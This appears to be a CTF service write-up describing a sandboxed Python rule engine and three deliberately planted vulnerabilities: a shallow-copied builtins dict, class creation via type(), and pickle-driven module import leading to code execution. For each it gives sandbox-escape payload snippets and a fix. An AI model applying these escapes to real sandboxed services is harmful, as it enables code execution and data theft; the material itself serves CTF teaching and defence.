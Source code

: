 # The Fraud Detector Service

The service emulates a company internal service for combat fraud. Since the fraud evolves over time, the service provides the rule engine and allows to dynamically add rules and to test them. Similar services are used by large companies, like Uber, [https://eng.uber.com/mastermind/](https://eng.uber.com/mastermind/).

The rule is a Python-code which runs in a sandbox. The sandbox cuts the set of available functions and global variables, leaving only "safe" objects. Also, it forbids dangerous import and attribute-access statements by constructing an Abstract Syntax Tree (AST) from the code and examining types if its nodes.

To interact with the rule engine, the service provides an HTTP-based API with four endpoints:

* get_rules() -> [rule_names]
* get_users() -> [users]
* add_rule(name, body) -> result
* check_user(rules, user) -> [fraud_probabilities]

There are no endpoints to add or delete users, all users are predefined. Every user is a dict with various keys: name, surname, age, rating, etc.

For convenience the service includes a website to interact with the API:

![web-site](service.png)

As in real life, the rule contents are secret, so the flags are inside them.


# Known Vulns

## Shallow Copy of Globals Dict

When a user is checked against the rules, the engine constructs the global variables for every rule this way:

```python
BASE_GLOBS = {
    "__builtins__": {**SAFE_FUNCTIONS, **SAFE_OBJS}
}

def run_rule(rule, user):
    globs = BASE_GLOBS.copy()
    globs.update({
        "user": user,
        "fraud_prob": 0
    })

    ast_rule = ast.parse(rule)
    ASTSecurityChecker().visit(ast_rule)

    code = compile(ast_rule, filename="rule.py", mode="exec")
    exec(code, globs)
    fraud_prob = min(100, max(0, globs["fraud_prob"]))

    return fraud_prob
```

The copy of _BASE_GLOBS_ is shallow, which means the "_\_\_builtins\_\__" dictionary will be the same across the single rule set. If an attacker overwrites the function in _\_\_builtins\_\__, it will be overwritten for all further rules.

The sploit idea is to overwrite the *sha256* function in the first rule to save its arguments in some variable:

```python
def patched_sha256(flag):
    if len(flag) == 32:
        __builtins__["flags"] += [flag]
    return b"f" * 32

__builtins__["flags"] = []
__builtins__["sha256"] = patched_sha256
```

In the end, the set rules which give the contents of the saved variable should be executed. For example, the first character can be got by the following rule:

```python
flags_str = str(flags)
fraud_prob = ord(flags_str[0]) - 32
```

The full sploit can be found at [/exploits/fraud_detector/spl1.py](../exploits/fraud_detector/spl1.py). A half of flags can be stolen using this vuln.

**The fix**: replace shallow copy with the deep copy.

## Ambiguity of the Type Function

It the sandbox, the types can't be constructed the *class* keyword, because Python tries to call _\_\_build_class\_\__ function which is not among the permitted objects. But the *type* function can be used not only for getting the type of its argument, but also for constructing own type.

The attributes of user object can be replaced with a special object which overrides operations like addition, length extraction, getting an item by index and so on, saving their arguments for stealing them:

```python
def add(self, flag):
    if len(flag) == 32:
        user["flags"] += [flag]
    return "f" * 32

user["flags"] = []
A = type("A", (), {"__radd__": add, "__add__": add,
                   "__getitem__": lambda *a: "a", "__len__": lambda *a: 42})

user["name"] = user["surname"] = user["registered_at"] = user["favorite_music"] = A()
```

An attacker can execute this code as the first rule and get the saved variables in the further rules, using similar technology as in the previous vuln:

```python
flags = str(user["flags"])
fraud_prob = ord(flags[0]) - 32
``` 

The full sploit can be found at [/exploits/fraud_detector/spl2.py](../exploits/fraud_detector/spl2.py). Another half of flags can be stolen using this vuln.

**The fix**: restrict the *type* function to only accept a single argument.

## Remote Code Execution

To restrict CPU and memory resources, the _check_user_ call runs the rule set in the subprocess:

```python
def run_rules_safe(rules, user):
    executor = concurrent.futures.ProcessPoolExecutor(max_workers=1, initializer=set_limits)
    future = executor.submit(run_rules, rules, user)
    return future.result(timeout=2.0)
```

If there was an exception during execution, it will be serialized using a *pickle* module and sent to the parent process. How does the pickle serialize an object of user class? It looks in which module it is declared and *import* that module to find the class declaration inside. So if an attacker manages to fool pickle, its module will be imported without the sandbox. To fool it let us examine the C source of pickle module (file _Modules/\_pickle.c_ in Python):

```c
static int
save_global(PicklerObject *self, PyObject *obj, PyObject *name)
{
    ...
    module_name = whichmodule(obj, dotted_path);
    if (module_name == NULL)
        goto error;
    ...
    module = PyImport_Import(module_name);
    ...
}

...

static PyObject *
whichmodule(PyObject *global, PyObject *dotted_path)
{
    ...
    if (_PyObject_LookupAttrId(global, &PyId___module__, &module_name) < 0) {
        return NULL;
    }
    if (module_name) {
        ...
        if (module_name != Py_None){
            return module_name;
        }
        Py_CLEAR(module_name);
    }
    ...
}
```

So the module can be specified in _\_\_module\_\__ attribute of the object. If to go deeper and analyze the type creation, we see that the _\_\_module\_\__ attribute is taken from the _\_\_name\_\__ of the module (file _Objects/typeobject.c_):

```c
static PyObject *
type_new(PyTypeObject *metatype, PyObject *args, PyObject *kwds)
{
    ...
    /* Set __module__ in the dict */
    if (_PyDict_GetItemIdWithError(dict, &PyId___module__) == NULL) {
        if (PyErr_Occurred()) {
            goto error;
        }
        tmp = PyEval_GetGlobals();
        if (tmp != NULL) {
            tmp = _PyDict_GetItemIdWithError(tmp, &PyId___name__);
            if (tmp != NULL) {
                if (_PyDict_SetItemId(dict, &PyId___module__,
                                      tmp) < 0)
                    goto error;
            }
            else if (PyErr_Occurred()) {
                goto error;
            }
        }
    }
    ...    
}
```

To get the full remote code execution, an attacker can create a file to execute, say _spl.py_ using an API and import it using a payload like this:

```python
__name__ = "data.rules.spl"
def exit(this, exc_type, exc_value, exc_traceback):
    raise type("E", (exc_type,), {})()
with type("C", (), {"__enter__": lambda s: None, "__exit__": exit})():
    pwn
```

One more trick used here is how to create an exception. In Python, all exceptions must be inherited from BaseException subclass, but we don't have any of them available. To get one it is possible to create context manager with custom _\_\_exit\_\__ function and cause an exception. The exception type is passed as the second argument of this function.

Another elegant way to get the command execution is:

```python
__name__ = "data.rules.%s"
fraud_prob = type("A", (), {"__gt__": lambda s, o: True, "__lt__": lambda s, o: True})()
```

This allows a malicious object to be passed unchanged after this code:

```python
fraud_prob = min(100, max(0, globs["fraud_prob"]))
```

The full sploit can be found at [/exploits/fraud_detector/spl3.py](../exploits/fraud_detector/spl3.py). All flags can be stolen using this vuln.

**The fix**: don't allow custom exceptions to be thrown in the _run_rules_safe_ function, patch the _type_ function to only accept a single argument.
